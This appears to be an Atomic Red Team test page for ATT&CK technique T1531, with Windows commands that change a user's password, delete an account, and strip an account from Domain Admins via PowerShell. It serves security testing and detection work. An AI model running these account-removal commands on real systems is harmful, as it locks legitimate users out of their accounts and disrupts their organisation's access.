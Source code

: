 # T1531 - Account Access Removal
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1531)
<blockquote>Adversaries may interrupt availability of system and network resources by inhibiting access to accounts utilized by legitimate users. Accounts may be deleted, locked, or manipulated (ex: changed credentials) to remove access to accounts.

Adversaries may also subsequently log off and/or reboot boxes to set malicious changes into place.(Citation: CarbonBlack LockerGoga 2019)(Citation: Unit42 LockerGoga 2019)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Change User Password - Windows](#atomic-test-1---change-user-password---windows)

- [Atomic Test #2 - Delete User - Windows](#atomic-test-2---delete-user---windows)

- [Atomic Test #3 - Remove Account From Domain Admin Group](#atomic-test-3---remove-account-from-domain-admin-group)


<br/>

## Atomic Test #1 - Change User Password - Windows
Changes the user password to hinder access attempts. Seen in use by LockerGoga. Upon execution, log into the user account "AtomicAdministrator" with
the password "HuHuHUHoHo283283".

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_account | User account whose password will be changed. | string | AtomicAdministrator|
| new_user_password | Password to use if user account must be created first | string | User2ChangePW!|
| new_password | New password for the specified account. | string | HuHuHUHoHo283283@dJD|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net.exe user #{user_account} #{new_password}
```

#### Cleanup Commands:
```cmd
net.exe user #{user_account} /delete >nul 2>&1
```



#### Dependencies:  Run with `command_prompt`!
##### Description: User account to change password of must exist (User: #{user_account})
##### Check Prereq Commands:
```cmd
net user #{user_account} 
```
##### Get Prereq Commands:
```cmd
net user #{user_account} #{new_user_password} /add
```




<br/>
<br/>

## Atomic Test #2 - Delete User - Windows
Deletes a user account to prevent access. Upon execution, run the command "net user" to verify that the new "AtomicUser" account was deleted.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| new_user_password | Password to use if user account must be created first | string | User2DeletePW!|
| user_account | User account to be deleted. | string | AtomicUser|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net.exe user #{user_account} /delete
```




#### Dependencies:  Run with `command_prompt`!
##### Description: User account to delete must exist (User: #{user_account})
##### Check Prereq Commands:
```cmd
net user #{user_account} 
```
##### Get Prereq Commands:
```cmd
net user #{user_account} #{new_user_password} /add
```




<br/>
<br/>

## Atomic Test #3 - Remove Account From Domain Admin Group
This test will remove an account from the domain admins group

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| super_user | Account used to run the execution command (must include domain). | string | domain&#92;super_user|
| super_pass | super_user account password. | string | password|
| remove_user | Account to remove from domain admins. | string | remove_user|


#### Attack Commands: Run with `powershell`! 


```powershell
$PWord = ConvertTo-SecureString -String #{super_pass} -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList #{super_user}, $PWord
if((Get-ADUser #{remove_user} -Properties memberof).memberof -like "CN=Domain Admins*"){
  Remove-ADGroupMember -Identity "Domain Admins" -Members #{remove_user} -Credential $Credential -Confirm:$False
} else{
    write-host "Error - Make sure #{remove_user} is in the domain admins group" -foregroundcolor Red
}
```




#### Dependencies:  Run with `powershell`!
##### Description: Requires the Active Directory module for powershell to be installed.
##### Check Prereq Commands:
```powershell
if(Get-Module -ListAvailable -Name ActiveDirectory) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
Add-WindowsCapability -Online -Name "Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0"
```




<br/>
